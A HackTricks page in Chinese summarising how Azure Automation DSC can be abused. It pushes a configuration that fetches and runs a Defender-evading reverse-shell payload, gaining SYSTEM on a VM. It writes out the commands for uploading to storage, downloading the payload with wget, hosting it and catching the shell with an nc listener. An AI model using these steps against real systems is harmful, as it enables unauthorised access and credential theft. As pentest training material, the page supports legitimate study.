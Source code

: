 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**查看完整帖子：** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备和步骤概述

#### 概述

该过程涉及设置一个远程服务器基础设施，以托管一个修改过的 Nishang `Invoke-PowerShellTcp.ps1` 有效载荷，命名为 `RevPS.ps1`，旨在绕过 Windows Defender。该有效载荷从 IP 为 `40.84.7.74` 的 Kali Linux 机器上通过一个简单的 Python HTTP 服务器提供。操作通过几个步骤执行：

#### 步骤 1 — 创建文件

- **所需文件：** 需要两个 PowerShell 脚本：
1. `reverse_shell_config.ps1`：一个获取并执行有效载荷的期望状态配置 (DSC) 文件。可以从 [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) 获取。
2. `push_reverse_shell_config.ps1`：一个将配置发布到虚拟机的脚本，位于 [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)。
- **定制：** 这些文件中的变量和参数必须根据用户的特定环境进行调整，包括资源名称、文件路径和服务器/有效载荷标识符。

#### 步骤 2 — 压缩配置文件

- `reverse_shell_config.ps1` 被压缩成一个 `.zip` 文件，以便准备传输到 Azure 存储帐户。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — 设置存储上下文并上传

- 压缩的配置文件使用 Azure 的 Set-AzStorageBlobContent cmdlet 上传到预定义的 Azure 存储容器 azure-pentest。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — 准备 Kali Box

- Kali 服务器从 GitHub 仓库下载 RevPS.ps1 有效载荷。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- 脚本被编辑以指定目标 Windows 虚拟机和反向 shell 的端口。

#### Step 5 — 发布配置文件

- 配置文件被执行，导致反向 shell 脚本被部署到 Windows 虚拟机的指定位置。

#### Step 6 — 托管有效负载并设置监听器

- 启动一个 Python SimpleHTTPServer 来托管有效负载，并使用 Netcat 监听器来捕获传入连接。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 计划任务执行有效载荷，获得SYSTEM级别的权限。

#### 结论

该过程的成功执行为进一步的操作打开了众多可能性，例如凭证转储或将攻击扩展到多个虚拟机。该指南鼓励在Azure Automation DSC领域继续学习和创造。 

{{#include ../../../../banners/hacktricks-training.md}}
